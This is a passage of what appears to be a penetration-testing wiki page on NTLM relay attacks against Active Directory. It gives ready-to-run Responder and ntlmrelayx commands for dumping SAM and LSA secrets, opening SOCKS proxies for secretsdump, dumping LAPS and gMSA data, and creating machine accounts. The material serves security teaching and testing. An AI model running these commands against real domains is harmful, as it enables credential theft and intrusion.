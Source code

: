 ```
sed -i 's/SMB = On/SMB = Off/g' /PATH/TO/Responder/Responder.conf
sed -i 's/HTTP = On/HTTP = Off/g' /PATH/TO/Responder/Responder.conf
```
{% endhint %}

Below are different use-cases of ntlmrelayx. The last "**+**" tab lists other interesting features that make this tool a must-have when attacking AD domains. It's important to know that many of the use-cases below can be combined.

{% tabs %}
{% tab title="Cred dump" %}
The following command will try to relay the authentication over SMB and attempt a remote [dump of the SAM & LSA secrets](../credentials/dumping/sam-and-lsa-secrets.md) from the target if the relayed victim has the right privileges.

At the time of this article update (12th Feb. 2022), [a pull request](https://github.com/SecureAuthCorp/impacket/pull/1253) adding LSA dump to the existing SAM dump is pending.

```bash
ntlmrelayx.py -t smb://$TARGET
```
{% endtab %}

{% tab title="SOCKS" %}
The following command will try to relay the authentication and open [SOCKS proxies](../../../systems-and-services/pivoting/socks-proxy.md).

```bash
ntlmrelayx.py -tf targets.txt -socks
```

The attacker will be able to use some tools along with proxychains to operate attack through the relayed authenticated session. In this case, secretsdump can be used to dump hashes from the remote target's [SAM and LSA secrets](../credentials/dumping/sam-and-lsa-secrets.md).

```bash
proxychains secretsdump.py -no-pass $DOMAIN/$USER@$TARGET
```
{% endtab %}

{% tab title="Enum" %}
The following command will run an enumeration of the Active Directory domain through the relayed authenticated session. The operation will create multiple `.html`, `.json` and `.grep` files. It will also gather lots of information regarding the domain users and groups, the computers, [ADCS](../ad-cs/), etc.

```bash
ntlmrelayx -t "ldap://domaincontroller" --dump-adcs --dump-laps --dump-gmsa
```
{% endtab %}

{% tab title="Creation" %}
The following command will abuse the default value (i.e. 10) of [`ms-DS-MachineAccountQuota`](../domain-settings/machineaccountquota.md) to create a domain machine account. The tester will then be able to use it for AD operations.

```bash
ntlmrelayx.py -t ldaps://$DC_TARGET --add-computer SHUTDOWN
```
